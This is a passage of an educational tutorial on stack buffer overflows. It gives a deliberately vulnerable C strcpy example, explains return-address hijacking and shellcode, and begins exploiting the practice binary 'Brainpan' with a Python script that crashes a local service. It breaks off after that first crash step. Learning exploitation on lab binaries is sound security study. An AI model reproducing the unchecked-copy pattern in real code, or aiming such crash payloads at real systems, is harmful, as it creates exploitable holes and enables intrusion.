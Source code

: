 ## Stack Overflows

## What is a Stack Buffer Overflow?

A stack buffer overflow is a type of vulnerability that occurs when a program writes more data to a buffer on the stack than it was originally allocated to hold. Buffers are blocks of memory, typically arrays or character strings, that store temporary data. When a program doesn’t check the amount of data written to a buffer, it can overwrite other parts of the stack, which can cause unintended behavior, crashes, or security vulnerabilities.

In short, a stack buffer overflow happens when the data you’re writing exceeds the buffer’s allocated memory and begins to overwrite adjacent memory, potentially including the return address and local variables stored on the stack.

### Example of a Stack Buffer Overflow

Consider this C code:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *str) {
    char buffer[10];  // Allocate a small buffer of 10 bytes
    strcpy(buffer, str);  // Copy input into buffer without checking size
}

int main() {
    char *long_string = "This string is too long for the buffer!";
    vulnerable_function(long_string);
    return 0;
}
```

#### In this example:

1. The function vulnerable_function creates a buffer on the stack that can hold only 10 bytes.
2. The strcpy function copies the contents of long_string into buffer.
3. Since long_string is longer than 10 bytes, strcpy writes beyond the boundaries of buffer, causing a stack buffer overflow.

### Why Is a Stack Buffer Overflow Dangerous?

When the data overflows past the buffer, it overwrites nearby memory on the stack, which can include:

- Return addresses: Changing the return address can redirect the program’s execution flow, often to code provided by an attacker.
- Local variables and control structures: This can change the behavior of the function, possibly causing unexpected actions or program crashes.

### Exploiting a Stack Buffer Overflow

Attackers can exploit stack buffer overflows to inject and execute malicious code. Let’s break down how:

1. Controlling the Return Address: By carefully crafting the overflow data, an attacker can overwrite the return address with the memory address of their own malicious code.
2. Injecting Malicious Code: The attacker can place malicious code (often called shellcode) in memory, usually within the overflowed buffer.
3. Redirecting Execution: When the function returns, instead of returning to the caller, it jumps to the attacker’s code, effectively granting control over the program.

## Example of Exploitation

In this section we are going to exploit a binary called "Brainpan". You can download it here --> [brainpan.exe](/assets/binaries/brainpan.exe).

We have the following exploit template:

### Initial Crash

```py
import struct
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999
target = (TARGET_IP, TARGET_PORT) 

CRASH_LEN = 5000  # change me

payload = b"A" * CRASH_LEN

with socket.create_connection(target) as sock:
    sock.recv(512) 

    sent = sock.send(payload)
    print(f"sent {sent} bytes")

```

We start clicking at the binary to execute it.

![]("/assets/more_images/2024-10-25.png")
